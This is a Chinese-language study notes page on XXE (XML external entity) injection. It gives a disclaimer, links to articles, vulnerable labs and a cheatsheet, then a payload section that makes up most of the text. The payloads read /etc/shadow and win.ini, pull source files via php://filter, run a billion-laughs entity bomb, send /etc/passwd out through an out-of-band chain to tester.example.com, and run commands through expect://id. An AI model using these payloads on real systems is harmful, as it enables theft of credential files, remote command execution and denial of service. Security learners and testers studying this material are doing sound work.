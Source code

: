 # XXE 笔记

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

## Refence

---

**文章**
- [XXE 漏洞的学习与利用总结](https://www.cnblogs.com/r00tuser/p/7255939.html)
- [XXE 漏洞利用技巧：从 XML 到远程代码执行](https://www.freebuf.com/articles/web/177979.html)
- [XXE: XML eXternal Entity Injection vulnerabilities](https://www.gracefulsecurity.com/xml-external-entity-injection-xxe-vulnerabilities/)
- [浅谈 XXE 攻击](https://www.freebuf.com/articles/web/126788.html)


**靶场**
- [c0ny1/xxe-lab: 一个包含 php,java,python,C# 等各种语言版本的 XXE 漏洞 Demo](https://github.com/c0ny1/xxe-lab)
- [TheTwitchy/vulnd_xxe](https://github.com/TheTwitchy/vulnd_xxe)

**议题**
- [Build Your SSRF Exploit Framework —— 一个只影响有钱人的漏洞](../../assets/file/安全/议题报告/WhiteHatFest2016/一个只影响有钱人的漏洞.pdf)

**payload**
- [bugbounty-cheatsheet/cheatsheets/xxe.md](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md)

---

## 一些 Payload

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

```
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///c:/windows/win.ini"> ]>

<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/convert.base64-encode/resource=file:///var/www/html/xxe/aaa.php">]>
```

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY % pe SYSTEM "http://tester.example.com/xxe_file">
%pe;
%param1;
]>
<foo>&external;</foo>

The contents of xxe_file should be:
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://tester.example.com/log_xxe?data=%payload;'>">
```

```
<!--?xml version="1.0" ?-->
<!DOCTYPE name [
<!ENTITY lol SYSTEM "expect://id">
<name>&lol;</name>
```
